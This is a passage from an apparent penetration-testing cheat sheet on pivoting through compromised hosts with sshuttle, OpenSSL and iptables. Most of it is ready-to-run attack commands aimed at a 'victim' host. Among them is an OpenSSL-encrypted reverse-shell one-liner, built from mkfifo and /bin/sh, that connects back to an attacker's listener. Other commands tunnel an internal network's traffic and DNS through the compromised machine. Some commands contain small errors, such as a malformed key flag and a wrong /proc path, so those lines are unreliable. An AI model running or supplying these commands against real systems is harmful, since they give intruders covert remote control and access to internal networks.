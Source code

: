 ### Usage Example
Assuming you want to pivot into the network `172.16.2.0/16`:

```bash
# Connect to remote host
sshuttle -vvr root@victim 172.16.2.0/16
```

### Using SSH Key for Authentication
If you'd like to use an SSH key for authentication instead of a password:

```bash
sshuttle -vvr root@victim --ssh-cmd 'ssh -i ~/.ssh/id_rsa' 172.16.2.0/16
```

This command specifies the SSH key to use (~/.ssh/id_rsa) when connecting to the remote server.

### Route dns queries through proxy

```bash 
sshuttle -dns -vv -r root@victim 0/0
```

## OpenSSL
Very wide spread and great for Living of The Land. This command-line application usually is used to perform cryptographic tasks, such as creating and handling certificates and related files. With some creativity OpenSSL can also used in a different way

### Generate a new RSA key & create certificates
```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

### Start a listener on local host
```bash
openssl s_server -quiet -key.pem -cert cert.pem -port [LPORT]
```

### Connect from target to listening port
```bash
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect [LHOST]:[LPORT] > /tmp/s; rm /tmp/s
```

## iptables 
Another option with Living of the Land character is iptables. This is giving a lot of options to do powerful pivoting while on the other hand ultimately can lock you out if done a mistake. So better be careful on this ones :) 

### Enable port forwarding in the kernel
```bash
echo 1 | sudo tee /proc/sys/ipv4/ip_forward
```

